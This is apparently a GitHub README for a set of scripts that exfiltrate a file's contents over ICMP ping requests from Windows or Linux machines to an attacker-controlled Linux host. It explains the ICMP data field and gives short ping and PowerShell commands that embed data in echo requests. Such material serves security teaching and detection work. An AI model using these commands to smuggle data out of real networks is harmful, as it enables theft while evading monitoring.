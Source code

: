 # ICMP-Exfiltration-Scripts
This repository contains the necessary scripts to exfiltrate the contents of a file from a Windows or Linux machine using the ICMP protocol (ping requests) to a Linux machine under your control.

- **icmpExfiltration.py**: Python script to exfiltrate a file from a Linux machine.
- **winIcmpExfiltration.ps1**: Powershell script to exfiltrate a file from a Windows machine.
- **icmpCapture.py**: Script to capture the exfiltrated file.



## More Information
### Using ICMP for Data Exfiltration

Malicious actors can use ICMP (Internet Control Message Protocol) to exfiltrate data, exploiting the fact that organizations often overlook the risks associated with allowing outbound ICMP traffic.

### How Does It Work?

ICMP packets include an optional "Data" field of variable length, which can be used to transmit arbitrary information.

![ICMP Packet Structure](images/ICMP-Exfiltration.png)

By default, if an ICMP echo request originates from a standard Windows ping, the data field will look something like this:

![Windows ICMP Data Field](images/ICMP-Exfiltration-1.png)

However, if the request comes from a Linux system, the data field might look like this:

![Linux ICMP Data Field](images/ICMP-Exfiltration-2.png)

### Modifying the Data Field

There are system tools available that allow us to write arbitrary information into this Data field.

#### *Linux*

- You can use the `-p` (pattern) flag with the `ping` command to send a specific sequence of up to 32 bytes (16 characters).
  
  ```bash
  ping -p <HEX_BYTES> <IP_ADDRESS>
  ```

  This command sends the specified hexadecimal byte sequence to the target IP address.

  ![Linux Ping Command Example](images/ICMP-Exfiltration-3.png)

  ![Linux Ping Data Field Example](images/ICMP-Exfiltration-4.png)

#### *Windows*

- In Windows, you can use PowerShell's `System.Net.NetworkInformation.Ping` to achieve a similar effect, and you can send more than 32 bytes.

  ```powershell
  $ping = New-Object System.Net.NetworkInformation.Ping
  $buffer = [Text.Encoding]::ASCII.GetBytes("YourDataHere")
  $ping.Send("IP_ADDRESS", 120, $buffer)
  ```

  This PowerShell script allows you to send custom data to the target IP address via ICMP echo requests.



### Practical Considerations

While using ICMP for exfiltration might bypass some security controls, it’s important to note that many modern security systems can detect and block unusual ICMP traffic patterns. For instance, an intrusion detection system (IDS) might flag a series of ICMP packets with non-standard data patterns.

Thus, while ICMP exfiltration can be effective in environments with less stringent monitoring, it's not foolproof and should be considered within the broader context of network security.

